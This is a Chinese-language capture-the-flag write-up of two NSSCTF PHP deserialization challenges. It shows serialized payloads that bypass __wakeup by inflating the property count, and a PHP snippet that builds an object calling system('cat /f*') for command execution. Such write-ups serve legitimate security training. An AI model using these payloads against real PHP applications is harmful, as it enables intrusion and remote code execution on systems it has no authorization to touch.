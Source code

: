 
## [SWPUCTF 2021 新生赛]no_wakeup

https://www.nssctf.cn/problem/429

* 考点：反序列化,php,绕过__wakeup
* 工具：php

关于**__wakeup的绕过**：

先序列化字符串，然后**使序列化后字符串中属性的个数大于真实对象中属性的个数**，即可绕过__wakeup
对于这道题：

```php
 public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }
```

所以，可以在前一题的 payload 的基础上进行修改，将对象的属性个数设置的大点

```php
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

将2修改为3

如果成员变量不为 public，是 private ，则需要在类中进行修改

```php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a=new Name();
echo serialize($a)
```

还需要注意序列化后的内容中的空格在构建 payload 传入参数后可能会丢失，需要使用 %00 替代空格补全

---

## [SWPUCTF 2022 新生赛]1z_unserialize

https://www.nssctf.cn/problem/2883

* 考点：反序列化,PHP,RCE
* 工具：hackbar，php

这道题和前面的略有不同，需要自己构建命令获取 flag ，可以看到 lly 成员变量在括号中，所以可以直接构建 system 命令去攻击

```php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;  
}
$a= new lyh();
$a->lt="system";
$a->lly="cat /f*";
echo serialize($a);
```
